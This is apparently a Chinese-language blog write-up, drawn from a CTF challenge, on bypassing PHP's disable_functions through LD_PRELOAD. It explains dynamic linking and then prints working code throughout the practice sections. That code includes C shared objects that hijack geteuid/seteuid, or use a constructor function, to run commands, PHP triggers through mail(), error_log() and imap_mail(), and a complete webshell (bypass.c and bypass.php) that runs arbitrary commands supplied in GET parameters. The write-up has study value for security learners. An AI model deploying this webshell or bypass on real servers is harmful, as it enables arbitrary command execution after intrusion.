










# 通过LD_PRELOAD绕过disable_functions

## 0x00 前言

​	前段时间碰到拿到shell以后限制了basedir并且无法执行命令的情况，解决办法是上传恶意的.so文件，并通过设置LD_PRELOAD，然后调用新进程来加载恶意.so文件，达到绕过的效果。当时做这道题目的时候是跟着别人的题解直接套的，属于一知半解的状态，比赛结束之后又耽搁了一两天，才有时间总结学习以下这个方式。


## 0x01 学习


### 链接

在学习LD_PRELOAD之前需要了解什么是**链接**。

程序的链接主要有以下三种：

1. 静态链接： 在程序运行之前先将各个目标模块以及所需要的库函数链接成一个完整的可执行程序，之后不再拆开。
2. 装入时动态链接：源程序编译后所得到的一组目标模块，在装入内存时，边装入边链接。
3. 运行时动态链接：原程序编译后得到的目标模块，在程序执行过程中需要用到时才对它进行链接。

对于动态链接来说，需要一个动态链接库，其作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新。但是由于程序是在运行时动态加载，这就存在一个问题，假如程序动态加载的函数是恶意的，就有可能导致disable_function被绕过。


### LD_PRELOAD介绍

> 在UNIX的动态链接库的世界中，LD_PRELOAD就是这样一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入恶意程序，从而达到那不可告人的罪恶的目的。


### 为什么可以绕过

想要利用LD_PRELOAD环境变量绕过disable_functions需要注意以下几点：

1. 能够上传自己的`.so`文件
2. 能够控制环境变量的值（设置LD_PRELOAD变量），比如putenv函数
3. 存在可以控制PHP启动外部程序的函数并能执行（因为新进程启动将加载LD_PRELOAD中的`.so`文件），比如mail()、imap_mail()、mb_send_mail()和error_log()等

首先，我们能够上传恶意`.so`文件，`.so文件`由攻击者在本地使用与服务端相近的系统环境进行编译，该库中重写了相关系统函数，重写的系统函数能够被PHP中未被disable_functions禁止的函数所调用。

当我们能够设置环境变量，比如putenv函数未被禁止，我们就可以把LD_PRELOAD变量设置为恶意`.so`文件的路径，只要启动新的进程就会在新进程运行前优先加载该恶意`.so`文件，由此，恶意代码就被注入到程序中。



当执行未被禁止的PHP函数，并且该函数调用了恶意库中重写的系统函数，就可以达到任意执行系统命令的效果了，因为重写的系统函数中的内容是我们可控的，对这部分内容进行编程即可。

PHP中某些函数比如mail()函数调用时，就会调用系统中的sendmail函数，由于LD_PRELOAD中指定加载了恶意的`.so`文件中覆盖了sendmail函数，所以就会执行重写的sendmail函数中的恶意代码，从而绕过disable_functions，达到任意执行系统命令的效果。


## 0x02 实践


在这么一个环境中，执行命令的相关函数被禁止





假如直接执行，会报错

test.php

```
<?php
system($_GET['cmd']);
```




### 编译so文件

首先查看sendmail这一系统函数会调用哪些库函数

```
readelf -Ws /usr/sbin/sendmail
```

从这些库函数中选择一个合适的即可，这里选取seteuid()来进行重写



hack.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h> 

void payload() {
        system("touch /var/www/html/success");
}   

int  seteuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

如果sateuid被调用，那么会加载payload函数，执行命令。

在编译恶意.so文件时，需要注意编译成共享对象：

> 如果想创建一个动态链接库，可以使用 GCC 的-shared选项。输入文件可以是源文件、汇编文件或者目标文件。另外还得结合-fPIC选项。-fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
>
> 你要根据目标架构编译成不同版本，在 x64 的环境中编译，若不带编译选项则默认为 x64，若要编译成 x86 架构需要加上 -m32 选项。


```
gcc -shared -fPIC test.c -o test_x64.so
```


### 上传.so文件

上传的方式很多，一般来说，如果能getshell的话应该都有写权限，在suctf2019-easyphp一题中上传了.htaccess文件来覆盖解析，达到文件上传的绕过，从而getshell，在这种情况下，利用现成的上传点或者通过写权限新增一个上传点。


### 写入webshell

test2.php

```
<?php
putenv("LD_PRELOAD=/var/www/hack.so");
mail("[email protected]","","","","");
?>
```


在浏览器中访问 webshell 就可以执行我们预期的语句了。按照此理，我们可以执行任意特定权限的命令。



这里我的ubuntu是没有安装sendmail的，但同样执行成功。一开始不知道怎么找原因，后面感谢我舍友的指点才发现。

在.c中加入死循环来判断到底哪个函数调用了geteuid()

test.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
        system("touch /var/www/html/success");
}   
int  geteuid() {
	if (getenv("LD_PRELOAD") == NULL) { return 0; }
	while(1){}
	unsetenv("LD_PRELOAD");
	payload();
}
```

可以在top中看到当前占用最高的一项是其实是/bin/sh，因为死循环一直卡着。



是由test.php 派生出来的，因此我没有安装sendmail也执行成功的原因是sh同样调用了geteuid函数






## 0x03 通用化

回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，比如geteuid（）。

在GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行` __attribute__((constructor))` 修饰的函数。

```
__attribute__((constructor))
constructor参数让系统执行main()函数之前调用函数(被__attribute__((constructor))修饰的函数)
__attribute__((destructor))
destructor参数让系统在main()函数退出或者调用了exit()之后,(被__attribute__((destructor))修饰的函数)
```

因此，只要php中设置了LD_PRELOAD，并派生了新的进程，将会执行LD_PRELOAD的文件中`__attribute__((constructor))`里的函数

test3.c

```
#include <stdlib.h>
#include <string.h>
__attribute__((constructor))void payload() {
    unsetenv("LD_PRELOAD");
    const char* cmd = getenv("CMD");
    system(cmd);
}
```

test2.php

```
<?php
putenv("CMD=ls");
putenv("LD_PRELOAD=./test3_x64.so");
error_log("a",1);
?>
```



可以看到执行成功。


**可以使用的函数**

```
mail("aa@qq.com","","","","")
error_log("a",1)
$img = new Imagick('xx.wmv')
imap_mail('1@2','2@3','222','','')
```


### 小马

bypass.c

```
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```


bypass.php

```
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

1.  cmd 参数，待执行的系统命令（如 pwd）
2.  outpath 参数，保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外关于该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点；
3. sopath 参数，指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。
4. 此外，bypass_disablefunc.php 拼接命令和输出路径成为完整的命令行，所以你不用在 cmd 参数中重定向了


```
bypass.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
```


## 0x04 参考链接

https://www.anquanke.com/post/id/175403

https://www.smi1e.top/php-bypass-disabled_functions/

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD